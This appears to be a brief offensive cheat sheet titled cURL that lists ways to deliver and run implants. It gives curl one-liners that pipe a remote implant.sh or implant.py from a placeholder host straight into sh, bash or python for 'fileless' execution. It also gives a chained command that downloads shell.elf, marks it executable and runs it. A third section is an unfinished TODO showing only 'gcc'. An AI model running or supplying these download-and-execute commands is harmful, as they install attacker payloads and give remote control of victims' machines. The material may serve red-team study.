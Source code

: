 # cURL

## 01 - Fileless code execution

```
$ curl http[s]://<IP>/implant.sh | sh

$ curl http[s]://<IP>/implant.sh | bash

$ curl http[s]://<IP>/implant.py | python
```

## 02 - Dropping on disk

Download implant and execute it.

```
$ curl -o shell.elf http[s]://<IP>/shell.elf && chmod +x shell.elf && ./shell.elf
```

## 03 - Compiled After Delivery

TODO: Fill this info

```
$ gcc
```